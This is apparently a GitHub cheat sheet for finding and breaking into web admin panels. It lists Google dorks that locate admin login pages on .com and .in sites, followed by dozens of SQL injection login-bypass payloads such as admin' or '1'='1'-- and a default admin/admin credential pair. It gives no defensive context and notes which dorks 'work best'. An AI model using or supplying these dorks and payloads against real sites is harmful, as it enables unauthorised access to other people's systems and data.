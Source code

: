 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in

Two
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx


## SQL INJECTION
- 1'or'1'='1
- 1'or'1'-'1
- OR 1-1 LIMIT 1 ;# or 1-1 limit 1 --
- admin' or '1'-'1
- 'or 1-1 limit 1--
- 1'or'1'='1
- ' or 1=1#
- or 1=1
- " or ""="
- or 1=1--
- or 1=1#
- or 1=1/*
- admin' --
- admin' #
- admin'/*
- admin' or '1'='1
- admin' or '1'='1'--
- admin' or '1'='1'#
- admin' or '1'='1'/*
- admin'or 1=1 or ''='
- admin' or 1=1
- admin' or 1=1--
- admin' or 1=1#
- admin' or 1=1/*
- admin') or ('1'='1
- admin') or ('1'='1'--
- admin') or ('1'='1'#
- admin') or ('1'='1'/*
- admin') or '1'='1
- admin') or '1'='1'--
- admin') or '1'='1'#
- admin') or '1'='1'/*

- user Name: admin password: admin

## DORKS:
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx
- inurl:personalrecords/login.php
- inurl:admin/Uploade
- inurl:admin/Upload
- inurl:creative-admin
- inurl:-admin/login.php
- inurl:*-admin/index.php
- inurl:-admin/admin.php
- intitle:"index" of "admin" site:
- intitle:"index" of "admin" "framework" site:.in
- intitle:"index" of "admin" "pdf" site:
- intitle:"index" of "admin" "gallery" site:
- intitle:"index" of "admin" "image" site:
- intitle:"index" of "admin" "upload" site:
- intitle:"index" of "admin" "banner" site:
- intitle:"index" of "admin" "file" site:
- intitle:"index" of "admin" "page" site:
- intitle:"index" of "admin" "news" site:
- intitle:"index" of "admin" "views" site:
- intitle:"index" of "admin" "include" site:
- intitle:"index" of "admin" "picture" site:
- intitle:"index" of "admin" "photos" site:
- inurl: admin/login.php site:.in

## PAYLOADS
- 1'or'1'='1
- ' OR 1=1 LIMIT 1 ;#
- ' or 1=1 limit 1 -- -+
- admin' or '1'='1
- 'or 1=1 limit 1-- -+---
